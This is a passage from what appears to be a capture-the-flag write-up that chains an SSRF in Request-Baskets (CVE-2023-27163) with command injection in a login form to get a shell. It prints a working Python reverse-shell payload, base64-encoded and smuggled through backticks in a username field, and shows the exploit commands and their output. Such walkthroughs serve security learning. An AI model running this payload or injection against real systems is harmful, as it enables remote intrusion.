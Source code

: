 

    def curl_cmd(my_ip, my_port, target_url):
            payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
            encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
     command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
            os.system(command)



It's a simple POST request to the given url plus `/login`.



    def main():
            listening_IP = None
            listening_PORT = None
            target_URL = None

            if len(sys.argv) != 4:
                    print("Error. Needs listening IP, PORT and target URL.")
                    return(-1)
            
            listening_IP = sys.argv[1]
            listening_PORT = sys.argv[2]
            target_URL = sys.argv[3] + "/login"
            print("Running exploit on " + str(target_URL))
            curl_cmd(listening_IP, listening_PORT, target_URL)



#### Exploit

To exploit this, I'll grab the POC, but remove where it adds `/login` on
line 28. I'll get a new SSRF url that goes to `/login`:



    oxdf@hacky$ ./cve-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80/login
    Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

    > Creating the "jgulua" proxy basket...
    > Basket created!
    > Accessing http://10.10.11.224:55555/jgulua now makes the server request to http://127.0.0.1:80/login.
    > Authorization: Je6HFdfIxVWIxmlDzyQWsTnB0uFGpdBAkOb8n3WniMGZ



Now I'll run the modified exploit script:



    oxdf@hacky$ python mailtrack_rce.py 10.10.14.6 443 http://10.10.11.224:55555/jgulua
    Running exploit on http://10.10.11.224:55555/jgulua



It hangs, but at a listening `nc` there's a shell:
